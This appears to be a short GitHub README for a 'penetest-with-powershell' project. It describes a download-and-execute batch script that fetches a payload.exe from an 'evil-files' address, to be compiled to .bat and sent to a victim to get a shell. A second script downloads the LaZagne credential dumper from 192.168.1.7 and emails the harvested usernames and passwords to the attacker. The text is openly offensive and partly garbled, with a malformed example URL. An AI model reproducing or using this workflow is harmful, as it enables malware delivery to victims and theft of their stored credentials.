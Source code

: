# penetest-with-powershell

download and execute script 

set files=‘url1’,’url2'

mention your payload URL in the script

exmple
set files=‘www.http://www.googl.com/car1.jpg’,’http://192.168.0.1/evil-files/payload.exe'

then, compile the txt into bat 

send it to the victim get the shell 

auto email script

set downloadURL=http://192.168.1.7/laZagne.exe

set email=

set password=

In download url i have specified lazagne file which is used to preview the email id and password in the victim system 
so when lazagne execute using auto download and execute .. it will log the username and password in a text file and send it through email. 







